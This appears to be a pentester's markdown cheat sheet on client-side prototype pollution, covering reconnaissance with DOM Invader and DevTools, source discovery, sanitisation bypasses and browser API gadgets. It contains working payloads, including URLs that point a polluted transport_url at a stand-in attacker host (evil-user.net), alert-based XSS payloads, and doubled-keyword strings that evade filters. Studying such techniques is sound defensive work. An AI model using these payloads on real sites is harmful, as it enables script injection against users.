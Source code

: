 ```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
https://website.org/patterns/?__proto__%5Bsequence%5D=alert%28document.domain%29-
```
# Client-side prototype pollution vulnerabilities (CSPP)
# Reconnaissance
- Using DOM Invader
- Manual - Using DevTools to study the JavaScript files that are loaded
    - Inject the test payload (and its variations) in the url
        - ?__proto__.foo=bar
    - Go to the console and create a new object and inspect the properties or simply declare "Object.prototype"
    - Check to see if the object inherited the injected property. If it didn't try a different test payload
    - Once prototype pollution has been confirmed, open the Devtools and review the javascript files for a sink
    - After finding the sink, find a gadget
## Finding sources manually 
Injecting arbitrary properties on url query strings, url fragments and any JSON input until a source that works has been found
```
vulnerable-website.com/?__proto__[foo]=bar
vulnerable-website.com/?__proto__.foo=bar
```
Test injection with
```
Object.prototype.foo
```
Using the constructor and non-recursive bypass
```
https://vulnerable-website.com/?constructor.prototype.foo=bar

Bypass non-recursive sanitazation
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```
## Finding sources using DOM Invader
DOM Invader is able to automatically test for prototype pollution sources as you browse
DOM Invader also can help detect gadgets
The tool can also help find prototype pollution issues in external libraries being used
[DOM Invader Documentation](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution)
## Prototype pollution via browser APIs
[Portswigger Research on the topic](https://portswigger.net/research/widespread-prototype-pollution-gadgets)
There are several prototype pollution gadgets in the Javascript APIs commonly provided in browsers
### fetch()
This method accepts 2 arguments: The URL and an options object
Prototype pollution may be possible on the options object
### Object.defineProperty()
Bypassing a non-configurable and non-writable property
Polluting Object.prototype with a malicious value property.
```js
Object.prototype.value='overwritten';
```